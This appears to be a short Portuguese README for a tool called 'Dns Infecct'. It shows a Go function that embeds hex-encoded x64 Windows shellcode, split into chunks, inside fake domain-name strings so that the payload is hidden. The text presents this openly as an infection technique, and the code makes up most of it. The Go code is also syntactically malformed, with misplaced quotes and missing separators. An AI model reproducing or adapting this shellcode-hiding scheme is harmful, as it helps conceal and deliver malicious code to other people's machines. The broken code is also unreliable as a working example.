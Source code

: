 ## Dns Infecct - trollcojk

### INFORMAÇÕES

_ele é feito com strings paths de hexadecimal 16 bytes, payload está embutida._
```
func (payload * Path) new() {
	payload.path = []string{"1.1.1.0 0xfc0x480x830xe40xf00xe80xcc0x000x000x000x410x510x410x500x52.1.com"
    "1.1.1.1","0x510x560x480x310xd20x650x480x8b0x520x600x480x8b0x520x180x48.1.com"
    "1.1.1.2","0x8b0x520x200x480x8b0x720x500x480x0f0xb70x4a0x4a0x4d0x310xc9.1.com"
    "1.1.1.3","0x480x310xc00xac0x3c0x610x7c0x020x2c0x200x410xc10xc90x0d0x41.1.com"
    "1.1.1.4","0x010xc10xe20xed0x520x410x510x480x8b0x520x200x8b0x420x3c0x48.1.com"
    "1.1.1.5","0x010xd00x660x810x780x180x0b0x020x0f0x850x720x000x000x000x8b.1.com"
    "1.1.1.6","0x800x880x000x000x000x480x850xc00x740x670x480x010xd00x500x8b.1.com"
    "1.1.1.7","0x480x180x440x8b0x400x200x490x010xd00xe30x560x480xff0xc90x41.1.com"
    "1.1.1.8","0x8b0x340x880x480x010xd60x4d0x310xc90x480x310xc00xac0x410xc1.1.com"
    "1.1.1.9","0xc90x0d0x410x010xc10x380xe00x750xf10x4c0x030x4c0x240x080x45.1.com"
    "1.1.1.10","0x390xd10x750xd80x580x440x8b0x400x240x490x010xd00x660x410x8b.1.com"
    "1.1.1.11","0x0c0x480x440x8b0x400x1c0x490x010xd00x410x8b0x040x880x480x01.1.com"
    "1.1.1.12","0xd00x410x580x410x580x5e0x590x5a0x410x580x410x590x410x5a0x48.1.com"
    "1.1.1.13","0x830xec0x200x410x520xff0xe00x580x410x590x5a0x480x8b0x120xe9.1.com"
	 }
```
_aquele esta os string paths, pode notar que eles são tipo um web-site, o infect tá em cada um._
_quase não fiz muito esforço, por que nos string já tava as funções._
